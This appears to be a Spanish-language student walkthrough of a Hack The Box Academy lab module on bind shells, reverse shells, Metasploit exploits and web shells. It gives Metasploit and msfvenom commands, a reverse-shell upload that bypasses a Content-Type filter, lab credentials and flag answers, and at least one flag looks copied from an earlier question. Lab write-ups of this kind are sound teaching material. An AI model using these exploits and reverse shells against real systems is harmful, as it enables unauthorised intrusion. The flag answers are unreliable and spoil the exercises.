# Shell & Payloads

## Shell Basics

### Anatomy of a Shell

1. **Which two shell languages did we experiment with in this section? (Format: shellname&shellname)**

answer: **bash&powershell**

2. **In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer.**

En esta actividad tenemos que abrir la maquina que nos ofrece htbacademy y luego abrimos la terminal de color azul que PS e ingresamos el siguiente comando 

```
$PSversiontable
```

answer: Core

### Bind Shells

1. **Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

answer: **443**

2. **SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.**

```
ssh htb-student@<Ipmaquinaobjetivo>
```

Preparamos el siguiente comando

<p align="center"> 

</p>

Antes de activarlo, activamos puerto de escucha 

```
sudo nc -nvlp 7777
```

Una vez obtenida la conexión acedemos a la ruta y obtenemos la flag

```
/customscripts
```

answer: **B1nD_Shells_r_cool**

### Reverse shells

1. **When establishing a reverse shell session with a target, will the target act as a client or server?

RDP to 10.129.201.51 (ACADEMY-SHELLS-WIN10), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

answer: **client**

2. **Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.**

Preparamos el puerto de escucho, luego ingresamos a windows mediante rdp

```
xfreerdp /v:10.129.201.51 /u:htb-student /p:'HTB_@cademy_stdnt!' /dynamic-resolution +clipboard
```

Luego abrimos una **cmd** NO powershell, sino cmd e ingresamos el comando especial uno que es bastante largo, no lo voy a ingresar porque mi antivirus sino me borra otra vez este post, pero se sabe cual es. 

<p align="center"> 

</p>

Logramos conexión y por tanto el nombre de usuario.

<p align="center"> 

</p>

answer: **shells-win10**

## Payloads

### Automating Payloads & Delivery with Metasploit

1. **What command language interpreter is used to establish a system shell session with the target?**

answer: **powershell**

2. **Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)**

Authenticate to 10.129.201.160 (ACADEMY-SHELLS-WIN10MSF), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

Hay que tener en cuenta que esto funciona por dos motivos principales, uno porque **el puerto smb esta abierto** y segundo porque **el usuario htbstudent tiene permiso de admin**. 

```
msfconsole -q
use windows/smb/psexec
set RHOSTS 10.129.201.160
set SHARE ADMIN$
set SMBPASS HTB_@cademy_stdnt!
set SMBUSER htb-student
set LHOST 10.10.14.10
set exploit
```

Una vez dentro de la máquina

```
shell
powershell
ls \Users\htb-student\Documents
```

answer: **staffsalaries.txt**

### Crafting payloads with MSFvenom (Theory)

**Comparativa Técnica**

| **Característica** | **Staged (/)** (Con etapas)          | **Stageless (_)** (Sin etapas)              |
| ------------------ | ------------------------------------ | ------------------------------------------- |
| **Tamaño inicial** | Muy pequeño (Bytes).                 | Grande (Megabytes).                         |
| **Conexión**       | Dos pasos (Conexión -> Descarga).    | Un paso (Conexión directa).                 |
| **Uso de Memoria** | Carga el Stage en RAM dinámicamente. | Carga todo el bloque de una vez.            |
| **Sigilo de Red**  | Más ruidoso (tráfico adicional).     | Más silencioso en red.                      |
| **Ejemplo**        | windows/x64/meterpreter/reverse_tcp  | windows/x64/meterpreter_reverse_tcp         |
| **Compatibilidad** | Requiere Metasploit Handler.         | Puede usar Netcat (si es una shell simple). |

## Windows Shells

### Infiltrating Windows

1. **What file type is a text-based DOS script used to perform tasks from the cli? (answer with the file extension, e.g. '.something')**

answer: **.bat**

2. **What Windows exploit was dropped as a part of the Shadow Brokers leak? (Format: ms bulletin number, e.g. MSxx-xxx)**

answer: **MS17-010**

3. **Gain a shell on the vulnerable target, then submit the contents of the flag.txt file that can be found in C:\**

```
msfconsole -q
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.129.201.97
set RPORT 445
set LHOST 10.10.14.10
run
```

<p align="center"> 

</p>

```
shell
powershell
cd /
type flag.txt
```

answer: **EB-Still-W0rk$**

## NIX Shells

### Infiltrating Unix/Linux

1. **What language is the payload written in that gets uploaded when executing rconfig_vendors_auth_file_upload_rce?**

answer: **php**

2. **Exploit the target and find the hostname of the router in the devicedetails directory at the root of the file system.**

```
msfconsole -q 
reload_all
use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
set RHOSTS 10.129.201.101
set LHOST 10.10.14.10
run
```

<p align="center"> 

</p>

Para obtener una shell mas visual, haremos el siguiente comando: 

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

<p align="center"> 

</p>

answer: **edgerouter-isp**

### Spawning Interactive Shells (Theory)

Para saber que lenguajes tiene la máquina podemos usar el siguiente comando:

```
which python3 python perl ruby php awk | xargs -n1
```

A continuación enseñare una tabla con distintos lenguajes con su respectivo comando para establecer una shell interactiva.

**Tabla de Comandos para Shell Interactiva**

|**Lenguaje**|**Comando / One-Liner**|**Notas**|
|---|---|---|
|**Python 3**|`python3 -c 'import pty; pty.spawn("/bin/bash")'`|El más común y fiable en sistemas modernos.|
|**Python 2**|`python -c 'import pty; pty.spawn("/bin/bash")'`|Para sistemas antiguos.|
|**Script**|`script /dev/null -c bash`|Muy útil si Python no está instalado.|
|**Perl**|`perl -e 'exec "/bin/sh";'`|Opción clásica en servidores web antiguos.|
|**Ruby**|`ruby -e 'exec "/bin/bash"'`|Común si el servidor aloja apps en Ruby on Rails.|
|**Lua**|`os.execute('/bin/sh')`|Común en sistemas embebidos o servidores de juegos.|
|**AWK**|`awk 'BEGIN {system("/bin/sh")}'`|Casi siempre instalado en cualquier Unix/Linux.|
|**Find**|`find . -exec /bin/sh \; -quit`|Si tienes permisos de ejecución sobre `find`.|

## Web Shells

### Laudanum, One Webshell to Rule Them All

1. **Establish a web shell session with the target using the concepts covered in this section. Submit the full path of the directory you land in. (Format: c:\path\you\land\in)**

En mi kali en primer lugar tengo que saber donde se ubica la herramienta **shell.aspx** lo sabre usando el comando **locate** 

Luego ese archivo lo copio a mi carpeta actual, luego uso nano al archivo recién copiado y en la línea 59 (Para visualizar las líneas puedes usar el atajo de teclado **alt** + **n**) establezco la ip de la vpn de HTB 

<p align="center"> 

</p>

Luego, en la ruta **/etc/hosts** establecemos la ip y el dominio que atacamos.

<p align="center"> 

</p>

```
http://status.inlanefreight.local
```

Al final de la pagina podemos ver que podemos subir archivos, aprovechamos y subimos **shell.aspx** y se guardará en la carpeta **files** para poder usar la herramienta escribimos en el navegador lo siguiente: 

```
http://status.inlanefreight.local/files/shell.aspx
```

Y en la web shell escribimos 

```
dir
```

answer: **c:\windows\system32\inetsrv** 

2. **Where is the Laudanum aspx web shell located on Pwnbox? Submit the full path. (Format: /path/to/laudanum/aspx)**

answer: **/usr/share/laudanum/aspx/shell.aspx**

### Antak Webshell

1. **Where is the Antak webshell located on Pwnbox? Submit the full path. (Format:/path/to/antakwebshell)**

En esta actividad en mi pagina no tenia descargado la herramienta **antakwebshell** por tanto lo tuve q descargar [aqui](https://github.com/samratashok/nishang/releases/tag/v0.7.6). Luego, traslade el archivo a **/usr/share** para tenerlo en mi sistema. Por otro lado, uso este comando: 

```
sudo updatedb
```

Para tener localizado facilmente la herramienta **antak.aspx**

<p align="center"> 

</p>

answer: **/usr/share/nishang/Antak-WebShell/antak.aspx**

2. **Establish a web shell with the target using the concepts covered in this section. Submit the name of the user on the target that the commands are being issued as. In order to get the correct answer you must navigate to the web shell you upload using the vHost name. `(Format: ****\****, 1 space)`**

Copiamos la herramienta antak.aspx en nuestra carpeta de trabajo, luego dentro del archivo, en la línea 14 cambiamos las credenciales por **htb-student**:**htb-student**

<p align="center"> 

</p>

Lo subimos a la página y luego accedemos a esta herramienta, igualito que en el apartado anterior. 

```
http://status.inlanefreight.local/files/antak.aspx
```

Nos pedirás las credenciales y una vez escrita aparecerá lo siguiente: 

<p align="center"> 

</p>

answer: **iis apppool\status**

### PHP Web Shells en PHP

1. **In the example shown, what must the Content-Type be changed to in order to successfully upload the web shell? (Format: .../... )**

answer: **image/gif**

2. **Use what you learned from the module to gain a web shell. What is the file name of the gif in the /images/vendor directory on the target? (Format: xxxx.gif)**

En esta pregunta obtuve el **.gif** de otra manera mediante una **reverse-shell.php**

```
locate reverse-shell
```

<p align="center"> 

</p>

```
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php php-reverse-shell1.php
nano php-reverse-shell1.php
```

<p align="center"> 

</p>

Establezco la ip de HTB y el puerto donde voy a activar la escucha.

Luego, nos vamos a la siguiente url 

```
https://10.129.201.101/vendors.php
```

Le damos a **add Vendor**, en vendor name ponemos lo que sea, no afectará al ataque, subimos nuestra reverse-shell y antes de dale a **save** debemos de activar burpsuite porque la idea es interceptar la subida del archivo.

<p align="center"> 

</p>

**En burpsuite**

<p align="center"> 

</p>


Cuando interceptemos nos saldrá una cosa parecida pues en Content-Type ponemos lo siguiente **image/gif** para que nos acepte la subida del archivo. 

<p align="center"> 

</p>

Quedaría tal que así, luego le damos dos veces a **forward** y lograremos subir el archivo.

Desactivamos **burpsuite**

Activamos nuestro puerto de escucha

```
nc -lvnp 4444
```

y activamos el archivo recien subido, y obtenemos acceso

```
https://10.129.201.101/images/vendor/php-reverse-shell1.php
```

<p align="center"> 

</p>

```
cd /
locate *.gif
```

<p align="center"> 

</p>

answer: **ajax-loader.gif**

## Skills Assesments

### The Live Engagement

<p align="center"> 

</p>

1. **What is the hostname of Host-1? (Format: all lower case)**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.21.154 /size:85% /dynamic-resolution +clipboard
```

Dentro de la máquina

```
sudo nmap 172.16.1.11 -A
```

<p align="center"> 

</p>

answer: **SHELLS-WINSVR**

2. **Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lower case)**

Una vez dentro lo primero que hay que hacer este comando:

```
Hostname -I
```

<p align="center"> 

</p>

La ip que vez a continuación es la que tenemos que usar para crear el siguiente payload. **emdeh** tequiero, sin ti no hubiera caido en esto.

<p align="center"> 

</p>

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=443 -f war > shell2.war
```

Una vez creado **.war** preparamos el puerto de escucha

```
sudo nc -lvnp 443
```

Para acceder al navegador escribimos en la terminal 

```
firefox &
```

No olvidemos las credenciales para acceder a la **http://172.16.1.11:8080** son **tomcat** / **Tomcatadm**

<p align="center"> 

</p>

Subimos el .war aquí, una vez subido nos aparecerá lo siguiente:

<p align="center"> 

</p>

Clicamos en **/shell2** y sorpresa..

<p align="center"> 

</p>

```
cd C:/Shares
dir
```

<p align="center"> 

</p>

answer: **dev-share**

3. **What distribution of Linux is running on Host-2? (Format: distro name, all lower case)**

```
sudo nmap blog.inlanefreight.local -A
```

<p align="center"> 

</p>

answer: **ubuntu**

4. **What language is the shell written in that gets uploaded when using the 50064.rb exploit?**

En el navegador

```
http://blog.inlanefreight.local/
```

<p align="center"> 

</p>

5. **Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt**

```
msfconsole -q
reload_all 
search 50064
use 0
set LHOST 172.16.1.5
set RHOSTS 172.16.1.12
set USERNAME admin
set PASSWORD admin123!@#
set VHOST blog.inlanefreight.local
set PAYLOAD php/meterpreter/reverse_tcp
run
```

El RHOSTS 172.16.1.12 lo consigo haciendo ping a blog.inlanefreight.local 

<p align="center"> 

</p>

Así es como quedaría el ataque

<p align="center"> 

</p>

Una vez dentro obtenemos la flag

```
shell
cat /customscripts/flag.txt
```

<p align="center"> 

</p>

answer: **B1nD_Shells_r_cool**

6. **What is the hostname of Host-3?**

```
sudo nmap 172.16.1.13 -A
```

<p align="center"> 

</p>

answer: **SHELLS-WINBLUE**

7. **Exploit and gain a shell session with Host-3. Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt**

```
msfconsole -q
use exploit/windows/smb/ms17_010_psexec
set LHOST 172.16.1.5
set RHOSTS 172.16.1.13
```

<p align="center"> 

</p>

```
shell
powershell
cat C:\Users\Administrator\Desktop\Skills-flag.txt
```

answer: **One-H0st-Down!**